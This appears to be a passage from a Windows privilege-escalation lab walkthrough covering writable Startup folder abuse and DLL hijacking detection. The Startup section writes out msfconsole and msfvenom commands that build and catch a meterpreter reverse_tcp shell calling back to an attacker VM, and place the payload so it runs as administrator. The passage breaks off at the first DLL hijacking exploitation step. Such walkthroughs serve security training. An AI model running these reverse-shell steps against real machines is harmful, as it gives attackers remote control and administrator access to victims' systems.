 ## Startup Applications
### Detection
Windows VM
1. Open command prompt and type: icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.
### Exploitation
Kali VM
1. Open command prompt and type: msfconsole
2. In Metasploit (msf > prompt) type: use multi/handler
3. In Metasploit (msf > prompt) type: set payload windows/meterpreter/reverse_tcp
4. In Metasploit (msf > prompt) type: set lhost [Kali VM IP Address]
5. In Metasploit (msf > prompt) type: run
6. Open another command prompt and type: msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe
7. Copy the generated file, x.exe, to the Windows VM.
Windows VM
1. Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.
2. Logoff.
3. Login with the administrator account credentials.
Kali VM
1. Wait for a session to be created, it may take a few seconds.
2. In Meterpreter(meterpreter > prompt) type: getuid
3. From the output, notice the user is “User-PC\Admin”

---
## DLL Hijacking
### Detection
Windows VM
1. Open the Tools folder that is located on the desktop and then go the Process Monitor folder.
2. In reality, executables would be copied from the victim’s host over to  the attacker’s host for analysis during run time. Alternatively, the  same software can be installed on the attacker’s host for analysis, in  case they can obtain it. To simulate this, right click on Procmon.exe  and select ‘Run as administrator’ from the menu.
3. In procmon, select "filter".  From the left-most drop down menu, select ‘Process Name’.
4. In the input box on the same line type: dllhijackservice.exe
5. Make sure the line reads “Process Name is dllhijackservice.exe then  Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
6. Next, select from the left-most drop down menu ‘Result’.
7. In the input box on the same line type: NAME NOT FOUND
8. Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.
9. Open command prompt and type: sc start dllsvc
10. Scroll to the bottom of the window. One of the highlighted results  shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it  could not do that as the file was not found. Note that ‘C:\Temp’ is a  writable location.
### Exploitation
Windows VM
1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_dll.c’ to the Kali VM.
